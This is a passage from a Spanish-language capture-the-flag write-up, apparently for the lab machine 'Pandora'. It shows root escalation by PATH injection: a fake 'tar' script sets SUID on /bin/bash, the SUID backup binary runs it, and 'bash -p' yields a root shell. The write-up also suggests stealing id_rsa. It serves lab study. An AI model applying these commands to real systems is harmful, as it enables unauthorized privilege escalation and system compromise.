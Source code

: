 Ahora si pide una contraseña, por lo que supongo que funciona correctamente.
Tambien corriendo el binario este funciona correctamente.
~~~bash
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: Removing leading `/' from member names
/var/www/pandora/pandora_console/AUTHORS
tar: Removing leading `/' from hard link targets
/var/www/pandora/pandora_console/COPYING
<SNIP>
/var/www/pandora/pandora_console/ws.php
Backup successful!
Terminating program!
~~~
Entonces ahora si se puede proseguir con el PATH INJECTION, para ello se crea un archivo con el contenido que se quiera hacer somo super usuario (robar el id_rsa, permisos sudo a la bash, ejecutar una bash, etc), luego otorgarle permisos de ejecución, aladirla al principio del la ruta $PATH y finalmente correr el binario.
~~~bash
matt@pandora:/tmp$ echo "chmod u+s /bin/bash" > tar
matt@pandora:/tmp$ chmod +x tar 
matt@pandora:/tmp$ export PATH=$(pwd):$PATH
matt@pandora:/tmp$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup successful!
Terminating program!
matt@pandora:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
~~~
Viendo los permisos de la bash, se puede ver que ya tiene permisos suid.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

En este punto, ya se puede entablar una sesion como root y poder leer la root flag.
~~~bash
matt@pandora:/tmp$ /bin/bash -p
bash-5.0# cd /root
bash-5.0# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

